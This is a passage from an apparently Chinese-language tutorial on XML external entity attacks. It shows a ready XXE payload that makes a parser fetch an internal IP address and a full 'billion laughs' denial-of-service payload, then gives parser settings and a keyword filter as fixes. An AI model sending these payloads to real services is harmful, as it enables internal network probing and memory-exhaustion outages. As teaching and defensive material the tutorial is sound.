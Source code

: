 		<?xml version="1.0" encoding="utf-8"?> 
		<!DOCTYPE xxe [
		<!ELEMENT name ANY >
		<!ENTITY xxe SYSTEM "https://172.31.50.1" >]>
		<root>
		<name>&xxe;</name>
		</root>

## 4. 拒绝服务攻击 ##
- `billion laughs`
- 该攻击通过创建一项递归的 `XML` 定义，在内存中生成十亿个`"Ha!"`字符串，从而导致 `DDoS` 攻击。
- 原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻击。

		<?xml version="1.0" encoding="utf-8"?>
		<!DOCTYPE lolz [
		<!ENTITY lol "lol">
		<!ELEMENT lolz (#PCDATA)>
		<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
		<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
		<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
		<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
		<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
		<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
		<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
		<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
		<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
		]>
		<lolz>&lol9;</lolz>

# 三、 修复方案 #
## 方案一：使用开发语言提供的禁用外部实体的方法 ##
- PHP

		libxml_disable_entity_loader(true);

- JAVA

		DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
		dbf.setExpandEntityReferences(false);
- Python

		from lxml import etree
		xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

## 方案二：过滤用户提交的XML数据 ##
- 过滤关键词：

		<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC

